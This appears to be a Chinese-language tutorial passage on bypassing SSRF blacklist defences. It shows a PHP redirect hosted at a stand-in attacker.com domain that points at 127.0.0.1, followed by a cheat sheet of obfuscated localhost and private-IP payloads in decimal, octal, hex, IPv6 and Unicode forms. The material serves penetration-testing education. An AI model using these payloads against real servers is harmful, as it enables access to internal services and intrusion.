 ### 什么是黑名单&&白名单?

黑名单是指不允许某些地址并在收到黑名单地址作为输入时阻止请求的做法。白名单意味着服务器只允许通过包含预先指定列表中的 URL 的请求，并使所有其他请求失败。

### 绕过黑名单

由于web应用的需求是需要获取外部资源，大多数SSRF保护机制都是以黑名单的形式出现的。如果面临黑名单，有多种方法欺骗服务器。

#### 重定向

让服务器请求一个你控制的 URL，该 URL 重定向到列入黑名单的地址。例如，你可以在您的 Web 服务器上托管一个包含以下内容的文件：

```
<?php header("Location: http://127.0.0.1"); ?>
```

假设此文件托管在[http://attacker.com/redirect.php](http://attacker.com/redirect.php) 。这样，当您向目标服务器发出请求[http://attacker.com/redirect.php](http://attacker.com/redirect.php)时，目标服务器实际上被重定向到[http://127.0.0.1](http://127.0.0.1) ，一个受限制的内部地址。
![](https://img-blog.csdnimg.cn/img_convert/d71bd20599da72f1b6f5b69de2255210.png)



#### 更改IP写法

下面是一些常用于绕过黑名单的方式

```
# Localhost
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.1:80
http://0
http:@0/ --> http://localhost/
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.⓪

# CDIR绕过
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

# 点号绕过
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# 十进制绕过
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

# 八进制绕过
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001

# 十六进制绕过
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20
```